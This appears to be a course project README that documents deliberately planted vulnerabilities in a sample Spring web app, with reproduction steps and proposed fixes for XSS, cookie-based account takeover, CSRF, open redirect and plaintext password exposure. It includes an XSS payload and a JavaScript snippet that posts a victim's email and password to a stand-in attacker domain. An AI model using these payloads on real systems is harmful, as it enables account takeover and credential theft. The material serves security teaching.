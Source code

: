 Introduction: this project is for the course [Cyber Security Base](https://cybersecuritybase.github.io/)

---
Type of vulnerability: Cross-site Scripting (XSS)

Description: Allow unescaped javascript in name-field

Steps to reproduce:
- Sign up using the form
- In the 'name' field put an XSS-payload (for example "<svg/onload=alert(1)" without quotes)
- In the other fields put any random text
- Click on the top link "Attendees list".
- The XSS will execute, resulting in a popupbox displaying "1"

Proposed fix 1:
- In /src/main/resources/templates/users.html line 11, change th:utext to th:text
- th:utext outputs unsanitized strings, whereas th:text sanitizes HTML output
- Downside of this fix is that it can cause issues with unicode-characters that do belong in a name

Proposed fix 2:
Validate and encode input from all fields before saving. This will allow all characters to be input as name, but not execute XSS payloads

---

Type of vulnerability: Missing Function Level Access Control

Description: An attacker is able to take over other users' account by abusing cookie values

Steps to reproduce:
- Create an account with random inputs
- Note that once you submit, you get redirected to url /user/{userid}
- Also note that the application wrote a cookie called "cookieuid" with the value of your userid
- Log out
- Note that the cookie is removed
- Create another account with random inputs
- Change the value of cookie "cookieuid" to the userid of your *first* created account
- Click on "My account" in the top navigation bar
- You are redirected to the account page of the first user, because the app identified your userid from your cookie
- You can now edit the information of this user, even though you are not logged in as this user

Proposed fix part 1:
Cookies are files on the user's computer, and can be modified by the user. This makes it an unreliable way to identify a user. Instead, the userid could be linked to the current user session (the JSESSION cookie), which leaves the control of the session with the server instead of the user.

Proposed fix part 2:
This bug works because the app checks only the userid when executing actions. It never checks if the current user has the same userid as the action that it's trying to execute. If the application checks who the current logged-in user is, and if the current request applies to the same userid, it can prevent execution by unauthorized users.
The best solution is to use both parts of this proposed fix: don't rely on the cookie as sole point of identification, and prevent logged-in users from executing actions on different userids.

---

Type of vulnerability: Cross-Site Request Forgery

Description: User can update another user's info page with csrf

Steps to reproduce:
- Create 2 accounts, and stay logged in to the second account
- Go to Account Details page
- Open your browser's devtools and select the <form> element
- Change form-attribute "action" to "/user/{userid of first account}"
- Change some of the data
- Click "Submit"
- You are now redirected to another user's page where your information is now (also) saved

Proposed fix 1:
The application has CSRF-tokens, but these are never validated. This means the main CSRF-defense is basically non-functioning. Fixing the CSRF-token implementation will disallow users from updating someone else's account information

Proposed fix 2:
As with the cookie issue before, the problem here lies in the fact that the application only checks the userid in the request. In this request, the userid in the URL is used to execute the user action. But it never checks if the user is logged in with the same userid as the userid that it's trying to update.

---

Type of vulnerability: Unvalidated redirects & forwards

Description: Attackers can trick users with a modified URL for the login page. This allows the attacker to control where the user goes after logging in.

Steps to reproduce:
- Create an account with random data (but remember the email & password for later)
- Once you've submitted, you are redirected to the url /user/{your user id}
- If you now click on Logout (in the top bar), you are redirected to the login page
- Note that the URL now contains a parameter called "nextpage". This is currently set to the page where you last were before clicking Logout (so nextpage=/user/{userid})
- Change the url so it reads /login?nextpage=https://google.com and hit enter (so the page loads)
- Alternatively, find the hidden input element in the Login form with the name "nextpage". Change the value of this input to "https://google.com"
- Log in with the previously entered email & password
- When submitting, you are redirected to https://google.com

Proposed fix 1:
- In the SignupController (/src/main/java/sec/project/controller/SignupController.java) lines 137-146 describes the logout functionality. This function shows that the referer (which determines the nextpage-redirect) is never validated. It can contain anything, as long as it is a valid URI. 
- You should validate that any referer-URI either matches the current domainname (starts with {currentprotocol}://{currentdomain}:{currentport}) OR that it doesn't contain a domainname (starts with /user, /form, etc)
- If this validation fails, redirect to a fixed page
- If this validation doesn't fail, redirect to the nextpage

---

Type of vulnerability: Sensitive Data Exposure

Description: Account page outputs the user's password in plaintext. That means the password can be stolen by malicious attackers

Steps to reproduce:
- Create an account with random data except the name field (we will use XSS from issue #1 to exploit this issue)
- In the name field, add the following payload: ```fetch(document.getElementById('navheader').children[1].href).then(r => r.text()).then(t => fetch('https://myevildomain.com/', {method:'post',body:JSON.stringify({email: t.match(/email"\svalue="(.*)"/)[1],password: t.match(/password"\svalue="(.*)"/)[1]})}));```
- This payload does 2 things: it first performs a GET-request to your account-page, and then it performs a POST-request to an attacker's server with the extracted email & password from the returned HTML
- Every user that visits the Attendees List will run this script (as explained in the XSS vulnerability) that posts their credentials to an external server

Proposed fix:
- Passwords should never be returned in plaintext. This indicates that they are not properly stored on the server as well.
- Instead of returning the user's password on their account page, allow a field to change their password but do not prefill it with their current one
- On server-side store passwords with a one-way hash. When the user logs in, hash their provided password and compare against the stored password
- This requires a fix in the SignupController on line 159, and in the Signup entity where the password is checked against the database

